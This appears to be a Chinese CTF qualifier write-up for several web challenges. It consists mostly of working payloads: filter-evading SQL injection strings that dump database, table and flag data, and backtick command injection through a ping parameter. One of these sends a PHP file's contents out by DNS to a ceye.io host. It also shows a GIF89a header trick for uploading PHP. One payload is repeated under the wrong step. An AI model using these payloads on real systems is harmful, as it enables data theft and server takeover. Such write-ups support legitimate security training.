


# CTF 预选赛部分writeup

绕过看门狗
一开始拿到链接尝试用and 1=1 来检测注入点，发现有过滤。


尝试利用注释+大小写来进行绕过注入拦截。



```python
检测字段
/**/Union/**/Select/**/1,2,3,4,5#
获取数据库敏感信息，当前数据库为news
/**/Union/**/Select/**/1,database(),user(),version(),5#
获取到一张tb_flag表。
/**/Union/**/Select/**/1,(selEct/**/table_name/**/fRoM/**/infOrmation_schema.tables/**/whEre/**/TABLE_SCHEMA/**/=/**/‘news’/**/limit/**/1,1),3,4,5#
获取到tb_flag表只有一个字段
/**/Union/**/Select/**/1,(selEct/**/table_name/**/fRoM/**/infOrmation_schema.tables/**/whEre/**/TABLE_SCHEMA/**/=/**/‘news’/**/limit/**/1,1),3,4,5#
获取到flag为flag{1396265adbb760c86475304b98e3f61c}
/**/Union/**/Select/**/1,(selecT/**/*/**/frOm/**/tb_flag/**/limit 0,1),3,4,5#
访问Robots.txt 发现index.txt
<?php include("where_is_flag.php");echo "ping";$ip =(string)$_GET['ping'];$ip =str_replace(">","0.0",$ip);system("ping  ".$ip);
解题方式一
http://203.0.113.1/?ping=`cp where_is_flag.php 520.txt`
解题方式二
http://203.0.113.1/?ping=`cat where_is_flag.php|sed 's/\s/qqq/g'`.****.ceye.io
upload
正常上传一张图片。提示请上传gif图片，猜测这里是检测上传文件头，直接打开一个.php文件在文件开头添加上
GIF89a
就能获取flag
babysql2
右键查看源码发现source.php
$id = $_GET['id']?waf($_GET['id']):1;
function waf($var){
if(stristr($_SERVER[‘HTTP_USER_AGENT’],‘sqlmap’)){
    echo "<center>hacker<center>";
    die();
}
$var = preg_replace(‘/([^a-z]+)(union|from)/i’, ‘ $2’, $var);
return $var;
}
获取数据库名称
\Nunion select 1,group_concat(schema_name),\Nfrom information_schema.schemata--+
获取表
\Nunion select 1,group_concat(table_name),\Nfrom information_schema.tables where TABLE_SCHEMA=database()--+
获取字段名称
\Nunion select 1,group_concat(column_name),\Nfrom information_schema.columns  WHERE table_name='flag'--+
获取flag
\Nunion select 1,group_concat(flag),\Nfrom flag--+
dbappweb-webscan
index.php?act=news&id=-1 union select 1,group_concat(column_name),user() from information_schema.columns  WHERE table_name='ctf'--+
index.php?act=news&id=-1 union select 1,title,content from ctf limit 1,1--+
```
